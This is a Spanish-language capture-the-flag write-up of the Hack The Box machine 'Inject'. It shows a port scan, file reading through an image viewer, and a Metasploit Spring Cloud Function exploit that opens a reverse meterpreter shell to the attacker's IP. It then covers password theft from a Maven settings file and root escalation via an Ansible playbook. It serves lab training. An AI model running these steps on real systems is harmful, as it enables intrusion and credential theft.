




# Inject HTB

- Ip atacante - 10.10.14.83
- Ip victima - 10.10.11.204

## Nmap

```bash
❯ sudo nmap -Pn -sS -n --min-rate 5000 -p- 10.10.11.204 
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-18 12:40 EDT
Nmap scan report for 10.10.11.204
Host is up (0.11s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy
```

Entrando en la pagina, veo un log in y sign up, sin embargo no estan funcionando y recien las estan implementando.

De la misma manera existe un directorio ``/upload`` entrando intente enviar un archivo .php pero no me dejo y me dice que solo puedo enviar imagenes.

Al enviar una imagen de un leon e interceptar el view image con burp veo que puedo ver archivos de la computadora



De esta imagen vemos un posible usuario, el cual es phil

Aqui dentro encontramos a frank tambien, viendo los directorios de los usuarios no encontramos nada. Felizmente el listado de los directorios funciona muy bien. Aqui dejo un ejemplo





Buscando esa tecnologia vemos que es vulnerable a RCE https://spring.io/security/cve-2022-22963

## Metasploit

```bash
❯ msfconsole

msf6 > search spring cloud

Matching Modules
================

   #  Name                                                     Disclosure Date  Rank       Check  Description
   -  ----                                                     ---------------  ----       -----  -----------
   0  auxiliary/scanner/http/springcloud_directory_traversal   2020-06-01       normal     No     Directory Traversal in Spring Cloud Config Server
   1  auxiliary/scanner/http/springcloud_traversal             2019-04-17       normal     No     Spring Cloud Config Server Directory Traversal
   2  exploit/multi/http/spring_cloud_function_spel_injection  2022-03-29       excellent  Yes    Spring Cloud Function SpEL Injection
   3  exploit/linux/http/spring_cloud_gateway_rce              2022-01-26       excellent  Yes    Spring Cloud Gateway Remote Code Execution
```

Primero proble con el exploit numero 3 pero no funciono, asi que fui con el numero 2

```bash
msf6 exploit(linux/http/spring_cloud_gateway_rce) > use 2
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp

msf6 exploit(multi/http/spring_cloud_function_spel_injection) > set rhosts 10.10.11.204
rhosts => 10.10.11.204
msf6 exploit(multi/http/spring_cloud_function_spel_injection) > set lhost 10.10.14.83
lhost => 10.10.14.83
msf6 exploit(multi/http/spring_cloud_function_spel_injection) > exploit

[*] Started reverse TCP handler on 10.10.14.83:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Command Stager progress - 100.00% done (823/823 bytes)
[*] Sending stage (3045348 bytes) to 10.10.11.204
[*] Meterpreter session 1 opened (10.10.14.83:4444 -> 10.10.11.204:57008) at 2023-03-18 13:39:03 -0400

meterpreter > shell
Process 36596 created.
Channel 1 created.
id
uid=1000(frank) gid=1000(frank) groups=1000(frank)
python3 -c 'import pty;pty.spawn("/bin/bash")' 
frank@inject:~$ export TERM=xterm SHELL=bash
```
Ya con eso podemos trabajar mejor
Viendo la carpeta de frank vemos que existe un directorio ``.m2``
## Pivoting to Phil

```bash
frank@inject:~$ ls -la
ls -la
total 28
drwxr-xr-x 5 frank frank 4096 Feb  1 18:38 .
drwxr-xr-x 4 root  root  4096 Feb  1 18:38 ..
lrwxrwxrwx 1 root  root     9 Jan 24 13:57 .bash_history -> /dev/null
-rw-r--r-- 1 frank frank 3786 Apr 18  2022 .bashrc
drwx------ 2 frank frank 4096 Feb  1 18:38 .cache
drwxr-xr-x 3 frank frank 4096 Feb  1 18:38 .local
drwx------ 2 frank frank 4096 Feb  1 18:38 .m2
-rw-r--r-- 1 frank frank  807 Feb 25  2020 .profile
frank@inject:~$ cd .m2
cd .m2
frank@inject:~/.m2$ ls
ls
settings.xml
frank@inject:~/.m2$ cat settings.xml
cat settings.xml
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
                       
      <password>*********ovesto*********</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
```

Encontramos las credenciales de phil
pivoteamos al usuario phil

```bash
frank@inject:/home/phil$ su phil                      
su phil
Password: *********ovesto*********

phil@inject:~$ id
id
uid=1001(phil) gid=1001(phil) groups=1001(phil),50(staff)
```
### user flag

```bash
phil@inject:~$ cat user.txt
cat user.txt
*********************f2191fe6f20
```
## Escalacion de privilegios
```bash
phil@inject:~$ ls -la 
ls -la
total 152
drwxr-xr-x 5 phil phil   4096 Mar 18 18:09 .
drwxr-xr-x 4 root root   4096 Feb  1 18:38 ..
drwxrwxr-x 3 phil phil   4096 Mar 18 17:31 .ansible
lrwxrwxrwx 1 root root      9 Feb  1 07:40 .bash_history -> /dev/null
-rw-r--r-- 1 phil phil   3771 Feb 25  2020 .bashrc
drwx------ 2 phil phil   4096 Feb  1 18:38 .cache
drwx------ 3 phil phil   4096 Mar 18 16:54 .gnupg
-rw-rw-r-- 1 phil phil 115775 Mar  8 17:04 linpeas.sh
-rw-r--r-- 1 phil phil    807 Feb 25  2020 .profile
-rw-rw-r-- 1 phil phil     85 Mar 18 17:40 shell.yml
-rw-r----- 1 root phil     33 Mar 18 13:47 user.txt
```
```bash
phil@inject:~$ cat shell.yml
cat shell.yml
- hosts: localhost
  tasks:
    - name: RShell
      command: sudo bash /tmp/root.sh
```
```bash
phil@inject:~$ bash -p
bash -p
bash-5.0# whoami
whoami
root
```
### root flag
```bash
bash-5.0# cd /root
cd /root
bash-5.0# ls
ls
playbook_1.yml	root.txt
bash-5.0# cat root.txt
cat root.txt
*********************6d54aa59ce9
```